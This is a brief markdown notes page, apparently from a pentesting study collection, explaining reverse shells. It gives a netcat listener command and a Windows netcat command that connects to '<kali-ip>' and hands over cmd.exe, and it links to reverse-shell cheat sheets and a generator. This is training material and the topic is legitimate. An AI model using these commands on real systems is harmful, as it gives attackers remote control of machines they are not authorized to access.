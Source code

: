 # Reverse Shells

## Explanation

- A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system. 

![reverse-shell](../../../Media/Shells/reverse-shells.png)

## Technics

### Preparation on the kali machine

Start listener :

```text
nc -nvlp 1234
```

### Run reverse shell

On the victime host (Windows), download necat.exe : <https://github.com/int0x33/nc.exe/>

And, run netcat :

```text
nc.exe -nv <kali-ip> 1234 -e cmd.exe
```

## CheatSheet & generator

- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>

- <https://www.revshells.com/>